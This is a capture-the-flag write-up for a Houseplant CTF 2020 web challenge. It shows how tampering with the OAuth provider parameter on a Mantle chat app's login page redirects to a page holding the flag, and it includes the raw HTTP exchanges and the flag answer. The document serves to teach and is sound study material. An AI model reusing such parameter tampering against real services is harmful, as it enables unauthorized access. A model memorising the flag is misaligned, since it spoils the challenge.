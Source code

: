 # Houseplant CTF 2020 – Selfhost all the things!

* **Category:** web
* **Points:** 1000

## Challenge

> The amount of data that online services like Discord and Instagram collect on us is staggering, so I thought I'd selfhost a chat app!
> 
> http://challs.houseplant.riceteacatpanda.wtf:30005
> 
> The chat database is wiped every hour.
> 
> This app is called Mantle and is open source. You can find its GitHub repo at https://github.com/nektro/mantle.
> 
> Dev: Tom
>
> Hint! discord more like flag

## Solution

The webpage has a link to enter in the chat.

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <meta http-equiv="X-UA-Compatible" content="ie=edge">
        <title>Mantle</title>
        <link rel="stylesheet" href="./css/main.min.css">
    </head>
    <body>
        <main>
            <h1>Mantle</h1>
            <p>The new easy and effective communication platform for any successful team or community, providing you the messaging and voice platform that puts you in charge of both the conversation and the data.</p>
            <p><a href="./login">Enter</a></p>
        </main>
    </body>
</html>
```

Clicking on it, you will be redirected to another page where you can select the OAuth2 Identity Provider.

Choosing `discord`, the following HTTP request will be generated.

```
GET /login?with=discord HTTP/1.1
Host: challs.houseplant.riceteacatpanda.wtf:30005
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://challs.houseplant.riceteacatpanda.wtf:30005/login
Upgrade-Insecure-Requests: 1

HTTP/1.1 302 Found
Location: https://discordapp.com/api/oauth2/authorize?client_id=<REDACTED>&duration=temporary&redirect_uri=http%3A%2F%2Fchalls.houseplant.riceteacatpanda.wtf%3A30005%2Fcallback&response_type=code&scope=identify&state=discord
Date: Fri, 24 Apr 2020 23:02:04 GMT
Content-Length: 0
Connection: close
```

You can notice that `with` HTTP GET parameter manipulation is possible.

```
GET /login?with=foo HTTP/1.1
Host: challs.houseplant.riceteacatpanda.wtf:30005
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://challs.houseplant.riceteacatpanda.wtf:30005/login
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Date: Fri, 24 Apr 2020 23:02:43 GMT
Content-Length: 0
Connection: close
```

Using the value `flag` will cause an interesting redirection.

```
GET /login?with=flag HTTP/1.1
Host: challs.houseplant.riceteacatpanda.wtf:30005
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://challs.houseplant.riceteacatpanda.wtf:30005/login
Upgrade-Insecure-Requests: 1

HTTP/1.1 302 Found
Location: http://challs.houseplant.riceteacatpanda.wtf:40002?client_id=1&duration=temporary&redirect_uri=http%3A%2F%2Fchalls.houseplant.riceteacatpanda.wtf%3A30005%2Fcallback&response_type=code&scope=profile&state=flag
Date: Fri, 24 Apr 2020 23:03:06 GMT
Content-Length: 0
Connection: close
```

Following the redirection will return a webpage with the flag.

```
GET /?client_id=1&duration=temporary&redirect_uri=http%3A%2F%2Fchalls.houseplant.riceteacatpanda.wtf%3A30005%2Fcallback&response_type=code&scope=profile&state=flag HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://challs.houseplant.riceteacatpanda.wtf:30005/login
Upgrade-Insecure-Requests: 1
Host: challs.houseplant.riceteacatpanda.wtf:40002

HTTP/1.1 200 OK
Date: Fri, 24 Apr 2020 23:03:27 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.2.30
Vary: Accept-Encoding
Content-Length: 429
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html>
	<head>
		<title>You got the flag!</title>
		<style>
	        .container {
	            position: absolute;
	            left: 50%;
	            top: 50%;
	            transform: translate(-50%, -50%);
	        }
	        body {
	            font-family: sans-serif;
	        }
    	</style>
	</head>
	<body>
		<div class="container">
			<h4>rtcp{rtcp-*is-s/ort-of-se1fh0st3d}</h4>		</div>
	</body>
</html>
```

So the flag is the following.

```
rtcp{rtcp-*is-s/ort-of-se1fh0st3d}
```